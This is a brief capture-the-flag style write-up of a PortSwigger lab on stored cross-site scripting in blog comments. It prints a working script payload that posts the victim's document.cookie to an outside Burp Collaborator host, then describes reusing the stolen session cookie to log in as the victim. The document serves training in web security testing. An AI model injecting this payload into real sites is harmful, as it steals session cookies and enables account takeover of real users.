 # Practitioner Lab  74: Exploiting cross-site scripting to steal cookies

---

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

I injected the following into the comment section.

```
<script>
  fetch('https://<SESSION>.burpcollaborator.net', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```

Here I managed to exfiltrate the cookie in the request to the collaborator 

![Untitled](Practitioner%20Lab%2074%20Exploiting%20cross-site%20scriptin%2099445e6af1a947a9b8aed3c7b06bbf21/Untitled.png)

Here I changed the cookie to login.

![Untitled](Practitioner%20Lab%2074%20Exploiting%20cross-site%20scriptin%2099445e6af1a947a9b8aed3c7b06bbf21/Untitled%201.png)
